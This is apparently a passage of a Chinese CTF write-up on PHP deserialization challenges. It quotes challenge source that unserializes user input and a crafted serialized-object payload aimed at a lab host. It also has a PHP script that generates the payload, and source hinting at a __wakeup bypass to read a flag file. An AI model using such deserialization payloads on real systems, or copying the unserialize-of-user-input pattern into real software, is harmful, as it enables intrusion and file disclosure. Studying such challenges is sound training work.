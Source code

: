 ```php
	}
	function __wakeup(){
		$this->password = 1; echo 'hello hacker,I have changed your password and time, rua!';
	}
}
if(isset($_GET['rua'])){
	$rua = $_GET['rua'];
	@unserialize($rua);
}
else{
	echo "<h1>Please don't stop rua 233333</h1><br>";
}
```
payload:`view-source:http://123.206.31.85:10012/?rua=O:4:"Time":3:{s:4:"time";s:4:"13e8";s:8:"password";a:1:{s:1:"s";s:2:"ss";};}`
1.3e9
0x4c06f351
0x4c06f350
```php
<?php
class Time{
	public $time = '13e8';
	public $password = array('s');
}

$a = new Time();
echo serialize($a);

?>
```
# web24 `反序列化 base64 private __wakeup`
http://123.206.31.85:10024/
http://123.206.31.85:10024/index/index.php
```php
<?php  
class Small_white_rabbit{  
    private $file = 'index.php';  

    public function __construct($file) {  
        $this->file = $file;  
    }  

    function __destruct() {  
        echo @highlight_file($this->file, true);  
    }  

    function __wakeup() {  
        if ($this->file != 'index.php') {  
            //the secret is in the_f1ag.php  
            $this->file = 'index.php';  
        }  
    }  
}  

if (isset($_GET['var'])) {  
    $var = base64_decode($_GET['var']);  
    @unserialize($var);  
} else {  
    highlight_file("index.php");  
}  
?>
```
